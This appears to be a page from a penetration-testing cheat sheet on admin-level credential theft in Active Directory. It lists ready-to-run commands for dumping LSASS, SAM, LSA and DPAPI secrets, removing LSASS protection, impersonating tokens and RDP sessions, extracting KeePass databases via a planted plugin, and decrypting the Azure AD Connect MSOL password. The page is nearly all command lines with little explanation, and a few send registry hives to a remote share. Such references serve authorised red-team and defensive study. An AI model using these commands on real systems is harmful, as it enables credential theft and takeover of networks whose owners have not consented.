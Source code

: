 ```yaml
---
title: "Admin Access"
description: "Admin Access techniques and commands for Active Directory security assessment."
---
```

# Admin Access
## Extract credentials from LSASS.exe
- LSASS as protected process
  - `PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp #before 2022-07-22 update`
  - `mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-"`
- Extract LSASS secrets *User + Pass || NTLM || PassTheHash || Clear text move*{: .highlight}
  - `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
  - `mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "exit"`
  - `msf> load kiwi creds_all`
  - `nxc smb <ip_range> -u <user> -p <password> -M lsassy`
  - `lsassy -d <domain> -u <user> -p <password> <ip>`

## Extract credentials from SAM *NTLM || PassTheHash*{: .highlight}
- `nxc smb <ip_range> -u <user> -p <password> --sam`
- `msf> hashdump`
- `mimikatz "privilege::debug" "lsadump::sam" "exit"`
- `secretsdump.py <domain>/<user>:<password>@<ip>`
- `reg save HKLM\SAM <file>;  reg save HKLM\SYSTEM <file>`
  - `secretsdump.py -system SYSTEM -sam SAM LOCAL`
- `reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'`
  - `secretsdump.py -system SYSTEM -sam SAM LOCAL`
- `regsecrets.py <domain>/<user>:<password>@<ip>`

## Extract credentials from LSA *MsCache 2 || User + Pass*{: .highlight}
- `nxc smb <ip_range> -u <user> -p <password> --lsa`
- `mimikatz "privilege::debug" "lsadump::lsa" "exit"`
- `reg save HKLM\SECURITY <file>;  reg save HKLM\SYSTEM <file>`
  - `secretsdump.py -system SYSTEM -security SECURITY`
- `reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'`

## Extract credentials from DPAPI
- DPAPI *User + Pass || PassTheHash || Clear text move*{: .highlight}
  - `nxc smb <ip_range> -u <user> -p <password> --dpapi [cookies] [nosystem]`
  - `donpapi <domain>/<user>:<password>@<target>`
  - `dpapidump.py <domain>/<user>:<password>@<target>`
  - get masterkey
    - `mimikatz "sekurlsa::dpapi"`
      - `dploot.py browser -d <domain> -u <user> -p '<password>' <ip> -mkfile <masterkeys_file>`
    - `lsassy -d <domain> -u <user> -p <password> <ip> -m rdrleakdiag -M masterkeys`
      - `dploot.py browser -d <domain> -u <user> -p '<password>' <ip> -mkfile <masterkeys_file>`
  - `SharpDPAPI.exe triage`

- Crack users masterkey *DPAPImk*{: .highlight}
  - copy c:\users\<user>\AppData\Roaming\Microsoft\Protect\<SID> 
    - `DPAPImk2john.py --preferred <prefered_file>`
      - `DPAPImk2john.py -c domain -mk <masterkey> -S <sid>`

## Impersonate
- Impersonate *ACL || User + Pass*{: .highlight}
  - `msf> use incognito impersonate_token <domain>\\<user>`
  - `nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users`
    - `nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>`
  - `irs.exe list`
    - `irs.exe exec -p <pid> -c <command>`

- Impersonate with adcs *NTLM || Pass The Hash / Ticket / Certificate*{: .highlight}
  - `masky - d <domain> -u <user>  (-p <password> || -k || -H <hash>) -ca <certificate authority> <ip>`

- Impersonate RDP Session *RDP*{: .highlight}
  - `psexec.exe -s -i cmd`
    - `query user`
      - `tscon.exe <id> /dest:<session_name>`

## Misc
- Find Users *Username*{: .highlight}
  - `smbmap.py --host-file ./computers.list -u <user> -p <password> -d <domain> -r 'C$\Users' --dir-only --no-write-check --no-update --no-color --csv users_directory.csv`
- Extract Keepass *User + Pass*{: .highlight}
  - `KeePwn.py plugin add -u '<user>' -p '<password>' -d '<domain>' -t <target> --plugin KeeFarceRebornPlugin.dll`
  - `KeePwn.py trigger add -u '<user>' -p '<password>' -d '<domain>' -t <target>`
- Hybrid (Azure AD-Connect) *DCSYNC*{: .highlight}
  - Dump cleartext password of MSOL Account on ADConnect Server
    - `azuread_decrypt_msol_v2.ps1`
    - `nxc smb <ip> -u <user> -p <password> -M msol`
